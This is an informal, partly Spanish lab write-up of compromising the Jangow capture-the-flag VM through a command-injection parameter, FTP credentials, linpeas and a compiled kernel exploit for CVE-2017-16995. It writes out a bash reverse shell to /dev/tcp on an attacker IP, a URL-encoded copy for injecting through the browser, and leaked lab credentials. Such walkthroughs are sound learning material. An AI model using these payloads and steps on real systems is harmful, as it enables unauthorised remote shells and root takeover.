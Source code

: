 ENUMERATION
-netdiscover
-nmap -sV -sC
watch the server pt 80

FOOTHOLD

LFI local file inclusion vulnerability
(see more)
ls -al

/site/busca?php=buscar
192.168.100.38/site/wordpress
aparently the server of wordpress is disconected from the site or something like that , the page of wordpress /site/wordpress looks strange

cat wordpress/config.php
-config.php
username and password

-prueba con ftp conexion

pwd
/var/www/html

.backup
cat .backup
ftp conn
success
get user.txt (it downloads the files)

APARENTLY YOU CANNOT READ ARCHIVES WHEN YOU ARE IN THE SERVICE OF FTP
cat user.txt

TRY A REVERSE SHELL  

method 1 
we must log on ftp with the user , and password
go to the html folder
(uploading via ftp)
using php-reverse-shell.php

test.php

put test.php (with this command) 
(the user jangow does not have permissions to modify directorys)

DO NOT WORK 

METHOD 2 NETCAT reverse shell


Type nc (victimp ip) victim port (service runing , in this case ftp) 
nc 192.168.100.38  21
USER jangow01 (you must type USER)
PASS  the password(you must type PASS)
```C
cds@cds:~$ nc 192.168.100.42 21
220 (vsFTPd 3.0.3)
USER jangow01
331 Please specify the password.
PASS abygurl69
230 Login successful.
ls
500 Unknown command.
```

(but is not possible it doesnt work)

METHOD 3 using a bash shell script


te pones en escucha con netcat

"reverse shell Cheat Sheet" on google 
```c
/bin/bash -c 'bash -i >& /dev/tcp/192.168.100.4/443 0>&1'
```
EL COMANDO VA EN EL NAVEGADOR BUSCAR= 
(dice "scirpt it automatically translates the bash script to a string") 
there is a way to encode the bash url to a string

encoder to url (search on google)
https://www.urlencoder.org/

```
%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.100.4%2F443%200%3E%261%27
```

and load the code to the buster

and you have the revese shell

shel interactive
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm  (exporta una variable de terminal)

you must log with 
su jangow01 y password

($username = "jangow01";
$password = "abygurl69";)


PRIVILEGE SCALATION

-we are going to use a tool called lin pease
enumerates a big part of the process on the target system


THIS SCRIPT GIVES US A POSSIBLE PATH FOR PRIVILEDGE SCALATION

linpieas.sh (github)

SE TRANSFIERE POR FTP

-put linpeas.sh
(doesnt work)

cd /home/jangow
put linpeas.sh (now works)

./linpeas.sh

db database 

THE SCRIPT IS UPLOADED VIA FTP
ebpf_verifyer (upload script via ftp) 


IT IS NECESARY TO COMPILE THE DOWNLOADED SCRIPT

compile the script using gcc command line utility

![[compilar.png]]


gcc 45010.c  -o cve-2017-16995

execute the file




























































